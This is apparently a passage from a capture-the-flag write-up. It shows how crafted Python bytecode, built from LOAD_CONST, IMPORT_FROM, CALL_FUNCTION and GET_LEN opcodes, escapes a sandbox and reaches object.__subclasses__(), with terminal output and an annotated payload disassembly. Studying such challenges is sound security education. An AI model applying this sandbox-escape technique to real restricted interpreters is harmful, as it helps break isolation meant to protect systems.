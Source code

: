 ```bash
$ python3 main.py
consts: ''
names: __class__,__base__,__subclasses__
code: 64006d006d016d025300
here goes!
<built-in method __subclasses__ of type object at 0x55bf92bc3640>

$ python3 main.py
consts: ''
names: __class__,__base__,__subclasses__
code: 64006d006d016d02a1005300
here goes!
Traceback (most recent call last):
  File "/home/justin/tmp/lactf/main.py", line 51, in <module>
    p(r(f()))
  File "/home/justin/tmp/lactf/main.py", line -1, in f
TypeError: object() takes no arguments
```

The opcode used above was `CALL_METHOD`, so I tried `CALL_FUNCTION` and it works! Apparently the two ways for calling functions is by pairing `LOAD_METHOD` and `CALL_METHOD`, or `LOAD_ATTR` and `CALL_FUNCTION`.

The next issue we ran into was getting a number on the stack. Because `main.py` used the `input()` function to get the data, everything was treated as a string. Inserting `1` as a const would always have it render as `'1'`. After some research, we settled on the `GET_LEN` opcode, which just ran the `len()` function on the item on top of the stack. Since our first constant was just an empty string, and the actual value of the string didn’t matter (aka `"".__class__` and `"abcd".__class__` are the same), we could load that const onto the stack again and run `GET_LEN` to put the length of that string onto the stack. We could just set the length of the initial string to whatever we want to obtain the desired integer.

However, a second hiccup was encountered that required 2 additional opcodes to bypass. `GET_LEN` pushed the integer we wanted onto the stack, but kept the loaded string on there too, which we didn’t want. I had to insert an extra `ROT_TWO` and `POP_TOP` opcode to switch the order and remove the string from the opcode.

At this point, the payload we had was:

```
Python code: 'aaaa...aaa'.__class__.__base__.__subclasses__()[14]

consts: aaaa...aaa
names: __class__,__base__,__subclasses__
code: 64006d006d016d02830064001e000200010019005300


Disassembly:
6400 -> LOAD_CONST, consts[0] -> 'aaaa...aaa'
6d00 -> IMPORT_FROM, names[0] -> __class__
6d01 -> IMPORT_FROM, names[1] -> __base__
6d02 -> IMPORT_FROM, names[2] -> __subclasses__
8300 -> CALL_FUNCTION
6400 -> LOAD_CONST, consts[0] -> 'aaaa...aaa'
1e00 -> GET_LEN -> 14 or whatever we want
0200 -> ROT_TWO
0100 -> POP_TOP
1900 -> BINARY_SUBSCR
5300 -> RETURN_VALUE
```

